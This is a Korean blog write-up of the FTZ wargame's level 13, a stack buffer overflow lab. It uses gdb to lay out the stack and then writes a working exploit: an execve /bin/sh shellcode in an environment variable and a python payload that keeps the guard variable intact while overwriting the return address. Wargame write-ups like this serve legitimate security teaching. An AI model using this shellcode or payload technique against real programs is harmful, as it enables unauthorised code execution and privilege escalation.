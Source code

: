 ```yaml
---
title:  "[FTZ] level 13"

categories: ftz
tags: [ftz]

toc: true
toc_sticky: true

date: 2021-12-18 00:14:59

---
```


# level 13

**level13 / have no clue**

힌트

![image](https://user-images.githubusercontent.com/69203345/146544043-462d8911-ca49-4a67-b3c4-314b640bcaae.png)

생긴걸 보아하니 이전 문제처럼 bof이용 해주면 될듯  
그래도 급하게 할 필요 없기 때문에 코드부터 봅시다

i가 buf보다 먼저 선언됐으므로 i의 시작주소가 buf보다 높다.

4바이트 정수형 변수 i에 0x1234567을 저장  
문자형 buf에는 1024사이즈 할당  0x1234567을 할당  
3094는 level13의 PID  
argv에 할당받은 입력이 한개를 넘으면 if수행  
argv[1] 을 buf에 복사

변수 i값이 아니라면 if수행  
print 수행후 프로그램 종료  

/tmp 폴더로 복사해서 gdb로 열기

![image](https://user-images.githubusercontent.com/69203345/146546755-d6a68c12-7746-4569-88f6-b812816bfe54.png)

올게 왔다

0x080484a3 <main+3>:    sub    esp,0x418

0x418을 10진수로 바꾸게 되면 1048이 나오고  
stack에 1048byte의 영역을 할당

0x080484a9 <main+9>:    mov    DWORD PTR [ebp-12], 0x1234567

i의 시작위치 = ebp -12
i에게 12바이트를 할당 했는데 i는 long형태로 4바이트만 차지하고,나머지 8바이트는 dummy

0x080484b0 <main+16>:   sub    esp,0x8

스택에 총 8byte를 할당합니다. 이번문장은 dummy를 의미함

0x080484dd <main+61>:   call   0x8048390  <strcpy>

buf의 시작 위치는 ebp - 1048입니다

낮은주소

buf[1024] [ebp-1048]  
dummy[12]  
i[4] [ebp-12]  
dummy[8]  
sfp[4]  
ret[4]  

높은주소

buf의 주소는 ebp-1048이고  
i의 주소는 ebp-12이므로  
1048에서 1024를 채운후 i(ebp-12)와의 빈 공간은 dummy(12)로 한다


>참고  
esp는 스택의 최상단을 가리키는 포인터로 push, pop연산에 따라 4Byte씩 값이 변한다.  
sfp(Saved Frame Pointer)는 이전 함수의 EBP주소를 저장하고 있는 공간이다.

그러면 buf[1024] 와 dummy[12]를 A로 채워주고, i를 01234567로 채워주고, dummy[8]과 SFP[4]를 다시 A로 채워주고 리턴주소를 덮어주면 될 것 같습니다.
 > \`python -c 'print "A"*1036+"\x67\x45\x23\x01"+"A"*12+"RETN"'`

 이 될것이다

 이제 그럼 환경변수를 등록
 > export EGG=\`python -c 'print "\x90"*15+"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\x89\xc2\xb0\x0b\xcd\x80"'`

>echo 'int main(){printf("ADDR->0x%x\n",getenv("EGG"));}'> getenv.c

 ./getenv를 실행시켰을 때 나오는 ADDR이 페이로드를 구성할 때 return 부분에 들어가는 주소

 ![image](https://user-images.githubusercontent.com/69203345/146562331-92c66527-4c2f-4df1-b9c0-7fac299c986a.png)

 주소는 0xbffffc9a  
 따라서

 > \`python -c 'print "A"*1036+"\x67\x45\x23\x01"+"A"*12+"\x9a\xfc\xff\xbf"'`

![image](https://user-images.githubusercontent.com/69203345/146564363-3aea097f-89e4-4245-b611-4314f8c32272.png)

 풀면 풀수록 감이 온다..!